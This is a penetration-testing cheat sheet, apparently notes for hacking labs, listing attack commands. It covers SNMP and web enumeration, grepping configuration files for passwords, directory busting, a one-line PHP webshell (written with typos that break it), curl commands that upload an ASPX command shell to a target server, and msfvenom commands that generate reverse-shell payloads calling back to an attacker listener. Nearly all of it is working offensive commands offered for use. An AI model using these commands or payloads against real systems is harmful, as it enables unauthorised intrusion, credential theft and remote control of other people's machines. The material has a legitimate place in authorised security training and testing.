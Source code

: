 ## SNMP
```c
nmap -sU --open -p 161 ...
snmpwalk -c public -v1 -t 10 10.10.10.1
snmpcheck
```

## webfiles to check
```c
robots.txt
sitemap.xml
```

## grep for passwords
```py
grep -roiE "password.{20}"
grep -oiE "password.{20}" /etc/*.conf
```

## directory busting
```py
nikto -host 10.10.10.68
gobuster dir --url 10.10.10.68 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
gobuster dir -u http://10.11.1.73:8080 -w /opt/SecLists-master/Discovery/Web-Content/common.txt -x html,php -t 35 -s 200,204,301,302,307 -o gob-common-ext.txt
gobuster dir -u url -w wordlist -x html,php -t 50
```

## webshells
```php
/usr/share/webshells 		                // test webshells before doing stuff with metasploit
<?php echo shell_exe(($_GET['cmd']); ?>
```

## CURL
```php
curl -X PUT -T /usr/share/webshells/aspx/cmdasp.aspx "http://10.10.10.15/sh.aspx"
curl -X MOVE -H "Destination: http://10.10.10.15/sh.aspx" http://10.10.10.15/sh.txt
```


## msfvenom
```c
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.1 lport=5577 -b '\x00' -f exe			// -b is bad byte

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.1 LPORT=8573 -f raw > shell.php 

msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.10.1 lport=8088 -f elf -o sh.elf

msfvenom -p php/reverse_php LHOST=10.10.10.1 LPORT=8573 -f raw > ven.php 
```
